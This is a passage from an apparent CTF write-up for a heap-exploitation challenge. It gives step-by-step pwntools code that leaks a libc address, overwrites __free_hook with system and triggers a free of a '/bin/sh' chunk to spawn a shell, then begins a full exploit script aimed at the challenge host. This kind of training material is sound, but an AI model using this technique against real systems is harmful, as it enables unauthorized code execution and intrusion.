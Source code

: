 ```python
p.recv(7)
target = u64(p.recv(6).ljust(8, b'\x00')) + 0x80
info(f"target: {hex(target)}")
for i in range(27):
    create(0x88, b"/bin/sh\x00")
```
### Step 3: Leak libc address
1. edit it point to our controlable place, which is the address to store #5 chunk address
2. edit it point to 0x000055770ddb5020 where stored a address of libc
3. show the #5 chunk to leak the libc address
```python
target = leak + 0x80
edit(-11, p64(target))
edit(-11, p64(target-0x68))
show(5)
p.recv(8)
#input()
libc_base = u64(p.recv(6).ljust(8, b'\x00')) - 0x3c5620
info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
```

### Step 4: Get shell
Change the place pointed to #5 chunk addrss point to *__free_hook* and edit it with `system` address.
Call `eatCookie()` to free a chunk contains /bin/sh` to get shell

```python
edit(-11, p64(free_hook))
edit(5, p64(system))
eat()
```

Full exploit script:
```python
from pwn import *

TARGET = './chall'
HOST = 'chalp.hkcert21.pwnable.hk'
PORT = 38230
context.arch = 'amd64' # i386/amd64
#context.log_level = 'debug'
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    libc = ELF("./libc-2.23.so")
else:
    p = process(TARGET ,env = {"LD_PRELOAD": "./libc-2.23.so"})
    libc = elf.libc
    gdbscript = ''''''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#---

def eat():
    p.sendlineafter(">", '1')
def create(size, data):
    p.sendlineafter(">", '2')
    p.sendlineafter("How long is the message?", str(size))
    p.sendlineafter("Input your message:", data)
def edit(idx, data):
```